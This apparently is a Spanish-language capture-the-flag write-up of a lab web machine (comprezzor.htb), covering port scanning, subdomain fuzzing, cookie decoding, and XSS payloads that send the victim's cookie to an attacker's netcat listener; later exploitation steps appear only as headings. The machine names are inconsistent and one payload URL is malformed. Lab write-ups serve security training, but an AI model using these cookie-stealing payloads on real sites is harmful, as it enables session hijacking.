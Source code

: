 # Institution 

Esta máquina involucraba enumerar y explotar múltiples vulnerabilidades en una aplicación web, escalar privilegios de forma ingeniosa y finalmente comprometer el sistema por completo obteniendo acceso root.

## Fase de preparación y enumeración inicial con Nmap y GoBuster para descubrir puertos abiertos y directorios.

[Seclist](https://github.com/danielmiessler/SecLists.git): es un repositorio con diccionarios datos para hacking

1. Crear un directorio para las enumeraciones (identificar y catalogar activos) en el directorio raiz del sistema

```bash
cd
mkdir enumeration
```

2. Enumeracion de puertos (seervicios)

```bash
nmap -sC -sV -v intentions.htb -oN enumeration/nmap
```
-sC (service scan): Ejecuta los scripts de enumeración predeterminados de Nmap.
-sV (version scan): Intenta detectar la versión de los servicios que se ejecutan en los puertos abiertos.
-v (verbosity   ): Aumenta el nivel de verbosidad de la salida.
intentions.htb: Es el nombre de dominio de la máquina objetivo que se agregó al archivo /etc/hosts previamente.
-oN enumeration/nmap: Guarda la salida del escaneo en un archivo de texto llamado "nmap" dentro del directorio "enumeration".

![step 2](./imgs/s2.png)

La salida muestra:

22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)

Los puertos abiertos de la maquina objetivo muestran que los servicions de nginx en el puerto 80/tcp y OpenSSH en el puerto 22/tcp estan activos.

Enumeramos pero a mayor profundidad con -p- que es un parametro para revisar la totalidad de puertos.

```bash
nmap -sC -sV -v intentions.htb -oN enumeration/scan-full -p-
```

3. Nos dirigimos al dominio correspondiente: http://{target_IP} y nos da el nombre de dominio correspondiente que es **comprezzor.htb**, añadimos un nuevo nombre de dominio con su ip al archivo "/etc/hosts" donde se almacenan la asociacion de nombres de dominio con direcciones IP

![step 1](./imgs/s1.png)

```bash
sudo echo "{target_IP} comprezzor.htb" >> /etc/hosts
```

4. Nos dirigimos al pie de pagina del sitio web, entramos al enlace

![s3](./imgs/s3.png)

nos dirigira a un nuevo subdominio **report.comprezzor.htb** lo añadirmos al archivo que almacena la asociación de dominios con IPs

5. Realizamos fuzzing

Fuzzing

El fuzzing es una técnica de pentesting que se utiliza para enumerar subdominios, directorios o archivos ocultos en aplicaciones web.

```bash
ffuf -w SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.comprezzor.htb' -u http://comprezzor.htb/ -fc 301 
```
ffuf: Ejecuta la herramienta ffuf.
-w /wordlists/subdomain.txt: Especifica el archivo de lista de palabras (en este caso, subdomain.txt) que se utilizará para el fuzzing.
-u http://comprezor.htb: Define la URL base objetivo.
-H 'Host: FUZZ.comprezor.htb': Agrega un encabezado HTTP personalizado, donde FUZZ será reemplazado por cada palabra de la lista durante el fuzzing.
-fc 301: Filtra y muestra solo las respuestas con código de estado 301 (Redirección permanente).

![s4](./imgs/s4.png)
nos aparecieron mas subdomincion que son:

- auth
- report
- dashboard

todos debemos añadirlo al archivo de dominios, debe quedar algo asi:

```bash 
10.10.11.15    comprezzor.htb
10.10.11.15    report.comprezzor.htb
10.10.11.15    auth.comprezzor.htb
10.10.11.15    dashboard.comprezzor.htb/login
```

5. Nos registramos [username: jose] [password: fernandez] 

6. Abrimos la inspeccion ctr+shift+i y verificamos el valor de la cookie que esta en base 64

![s5](./imgs/s5.png)

7. Decodificamos el valor de la cookie

```bash
echo "eyJ1c2VyX2lkIjogNiwgInVzZXJuYW1lIjogImpvc2UiLCAicm9sZSI6ICJ1c2VyIn18ZDIzMzY1NzQxN2E3YTU1MmE2NDY0MzVhYzZjYmRmMTMyZjc5ZmMzZDhkZDExZmUwYTJlMTg3ZThjMzdkMGE1NQ==" | base64 -d

```

![s7](./imgs/s7.png)

se muestra el usuario y contrasenia

8. Creamos un servidor de prueba que escucha en el puerto 8081, y en el propio formulario al que accedemos le colocamos el siguiente payload

```bash
    "><img src=x onerror=this.src='http://:8081/?c='+document.cookie>

o

"><img src=x onerror="fetch('http://{source_IP}:8081/?c=' + encodeURIComponent(document.cookie))">

# Se activa el servidor de escucha en el puerto 8081 con:

nc -lnvp 8081

# obtenemos la siguiente cookie:

eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4

```

9. Uso de burp suite

Burp Suite es una herramienta de prueba de penetración de aplicaciones web desarrollada por PortSwigger. Es ampliamente utilizada por profesionales de seguridad para identificar y explotar vulnerabilidades en aplicaciones web. Burp Suite proporciona una gama de herramientas integradas, incluyendo un proxy para capturar el tráfico web, un escáner de vulnerabilidades, y herramientas para realizar ataques como fuzzing y manipulación de solicitudes.

Como funciona: en este caso captura las solicitudes desde colocarlo en los formularios y lo podemos modificar, lo unico relevante para continuar con este trabajo es modificar la proxy de destino del navegador que se debe configurar manualmente al 127.0.0.1 puerto 8080



## Encontrar una vulnerabilidad de inyección SQL en un endpoint de la aplicación web Laravel y explotarla para obtener credenciales de administrador.

## Descubrir una vulnerabilidad de ejecución remota de comandos (RCE) en la API v2 de la aplicación, explotando una librería de manipulación de imágenes (Imagick) y lograr una reverse shell como www-data.

## Obtener acceso como el usuario greg a través de credenciales encontradas en un repositorio Git de la aplicación.

## Escalar privilegios a root aprovechando un binario SUID que permitía leer cualquier archivo como root, incluyendo la clave SSH privada de root mediante fuerza bruta.

## Usar la clave SSH privada de root para obtener una sesión SSH como usuario root y leer la flag final.

